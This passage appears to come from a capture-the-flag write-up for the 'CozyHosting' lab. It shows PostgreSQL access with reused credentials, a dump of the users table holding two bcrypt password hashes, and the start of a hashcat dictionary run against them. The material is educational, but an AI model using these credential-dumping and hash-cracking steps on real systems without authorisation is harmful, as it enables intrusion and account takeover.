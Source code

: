 I used those credentials to connect to the database on the server.

```bash
psql -Upostgres  -hlocalhost
Password for user postgres: REDACTED

\l
                                   List of databases
    Name     |  Owner   | Encoding |   Collate   |    Ctype    |   Access privileges
-------------+----------+----------+-------------+-------------+-----------------------
 cozyhosting | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 |
 postgres    | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 |
 template0   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
 template1   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
(4 rows)


\c cozyhosting
You are now connected to database "cozyhosting" as user "postgres".

\dt
         List of relations
 Schema | Name  | Type  |  Owner
--------+-------+-------+----------
 public | hosts | table | postgres
 public | users | table | postgres
(2 rows)

Select * From users;
   name    |                           password                           | role
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
```

The database contained the password hash for two users. I used hashcat to crack them.

```bash
$ hashcat -a0 -m3200 hash.txt /usr/share/seclists/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 4.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.7, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: cpu-sandybridge-AMD Ryzen 7 PRO 5850U with Radeon Graphics, 2865/5794 MB (1024 MB allocatable), 6MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 72

Hashes: 2 digests; 2 unique digests, 2 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 0 MB

Dictionary cache hit:
```